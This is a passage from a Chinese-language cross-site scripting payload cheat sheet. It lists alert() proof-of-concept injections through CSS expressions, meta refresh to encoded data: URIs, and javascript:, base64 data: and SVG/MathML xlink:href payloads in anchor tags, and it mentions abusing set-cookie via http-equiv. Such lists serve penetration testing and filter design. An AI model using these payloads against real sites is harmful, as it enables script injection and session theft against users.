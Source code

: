      4. style属性内及css代码之中IE可执行，并且在IE9以上被防御，不适合其他浏览器，基本已死。

        ```
        style="width:expression(js代码)"
        background-image:url('javascript:alert(2)')
        ```

   - 输出在meta标签

     ```javascript

     <meta http-equiv="refresh" content="0; url=data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E">
     ```

     还有一些猥琐的思路，就是通过给http-equiv设置set-cookie，进一步重新设置 cookie 来干一些猥琐的事情。







## 0x01 具体标签的Payload

1. a标签

   - javascript伪协议：

     ```html
     <a href=javascript:alert(2)>
     ```

   - data协议执行javascript：

     ```Html
     <a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgzKTwvc2NyaXB0Pg==>
     ```

   ​

   - urlencode版本：

     ```html
     <a href=data:text/html;%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%2829%29%3C%2F%73%63%72%69%70%74%3E>
     ```

   - 不使用href的另外一种组合来执行js：

     ```html
     <svg><a xlink:href="javascript:alert(14)"><rect width="1000" height="1000" fill="white"/></a></svg> 
     ```

     或者：

     ```html
     <math><a xlink:href=javascript:alert(1)></math>
     ```

2. script标签

   - 最简单的测试payload：
